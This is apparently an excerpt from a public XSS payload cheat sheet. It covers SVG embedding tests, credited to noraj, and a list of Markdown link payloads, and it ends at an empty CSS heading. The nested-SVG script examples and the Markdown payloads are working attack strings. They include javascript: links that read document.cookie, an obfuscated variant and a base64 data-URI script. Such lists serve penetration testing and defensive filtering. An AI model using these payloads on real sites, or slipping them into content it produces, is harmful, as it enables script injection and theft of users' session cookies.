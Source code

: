 Including a remote SVG image in a SVG works but won't trigger the XSS embedded in the remote SVG. Author: noraj.

SVG 1.x (xlink:href)

```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg" height="200" width="200"/>
</svg>
```

Including a remote SVG fragment in a SVG works but won't trigger the XSS embedded in the remote SVG element because it's impossible to add vulnerable attribute on a polygon/rect/etc since theÂ `style`Â attribute is no longer a vector on modern browsers. Author: noraj.

SVG 1.x (xlink:href)

```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <use xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg#lightning"/>
</svg>
```

However, including svg tags in SVG documents works and allows XSS execution from sub-SVGs. Codename: french flag. Author: noraj.

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <svg x="10">
    <rect x="10" y="10" height="100" width="100" style="fill: #002654"/>
    <script type="text/javascript">alert('sub-svg 1');</script>
  </svg>
  <svg x="200">
    <rect x="10" y="10" height="100" width="100" style="fill: #ED2939"/>
    <script type="text/javascript">alert('sub-svg 2');</script>
  </svg>
</svg>
```

### XSS in Markdown

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-markdown)

```cs
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

### XSS in CSS

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-css)
